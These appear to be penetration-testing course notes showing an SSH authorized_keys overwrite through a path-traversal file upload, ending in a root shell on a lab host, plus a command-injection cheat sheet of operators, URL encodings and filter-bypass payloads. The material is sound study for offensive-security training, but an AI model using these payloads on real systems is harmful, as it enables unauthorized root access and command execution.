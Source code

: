 ```xml
```

If we can upload a file and include `../` in the file name, maybe we can overwrite the **authorized_keys**:

```bash
kali@kali:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): fileup
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in fileup
Your public key has been saved in fileup.pub
...

kali@kali:~$ cat fileup.pub > authorized_keys
```

![](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PWKR/imgs/commonwebattacks/999ddab4c6543dc3d727618bc14ed495-cwa_fu_burprelsshcom.png)

SSH can throw an error if it cannot verify the host key it saved previously. If this happen, remove `~/.ssh/known_hosts`

```bash
kali@kali:~$ rm ~/.ssh/known_hosts

kali@kali:~$ ssh -p 2222 -i fileup root@mountaindesserts.com
The authenticity of host [mountaindesserts.com]:2222 ([192.168.50.16]:2222) cant be established.
ED25519 key fingerprint is SHA256:R2JQNI3WJqpEehY2Iv9QdlMAoeB3jnPvjJqqfDZ3IXU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
...
root@76b77a6eae51:~#
```

### Command Injection

First of all, try to find all blacklisted/whitelisted characters one by one.

**[Bashfuscator](https://github.com/Bashfuscator/Bashfuscator)**
**[DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation)**

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|\|`                  | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |
**Bypassing Space Filters**
* Using tabs: `127.0.0.1%0a%09`
* Using IFS: `127.0.0.1%0a${IFS}`
* Using brace expansion: `127.0.0.1%0a{ls,-la}`
